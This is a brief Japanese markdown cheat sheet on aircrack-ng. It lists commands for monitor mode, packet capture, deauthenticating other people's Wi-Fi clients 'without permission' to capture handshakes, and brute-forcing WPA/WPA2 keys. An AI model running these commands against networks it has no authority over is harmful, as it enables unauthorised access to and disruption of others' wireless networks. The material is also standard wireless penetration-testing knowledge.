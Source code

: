 ```yaml
---
title: "aircrack-ng"
date: 2019-10-21 11:56:33 +0900
---
```


aircrack-ng
===


### 無線NICのリストを表示

```bash
$ sudo airmon-ng
```

### NICを利用してる他のプロセスを殺す

```bash
$ sudo airmon-ng check kill
```

### パケットキャプチャを有効化

```bash
$ sudo airmon-ng start wlp3s0
```

これでwlp3s0monというNICが生える

### パケットキャプチャの開始

```bash
$ sudo airodump-ng wlp3s0 --bssid <bssid>  -w <filename>
$ sudo airodump-ng wlp3s0 --essid <essid>  -w <filename>
```

filename-01.{cap,csv,kismet...}ができる

### より認証時のパケットを集めるために、他人を勝手にdeauthenticateする

```bash
$ sudo aireplay-ng --deauth 1 -a <bssid> -c <client mac address> wlp3s0
```

client mac addressはairodumpの結果から適当に引っ張ってくる

### 鍵計算

WPA/WPA2 PSK(pre shared key)を総当り計算する

```bash
$ sudo aircrack-ng <option> *.cap
```

optionはいろいろあるっぽい

- -e <essid>
- -b <bssid>
- -c : search only alpha-numeric
- -w <filename> : passwird list

### パケットキャプチャモードの停止

```bash
$ sudo airmon-ng stop wlp3s0mon
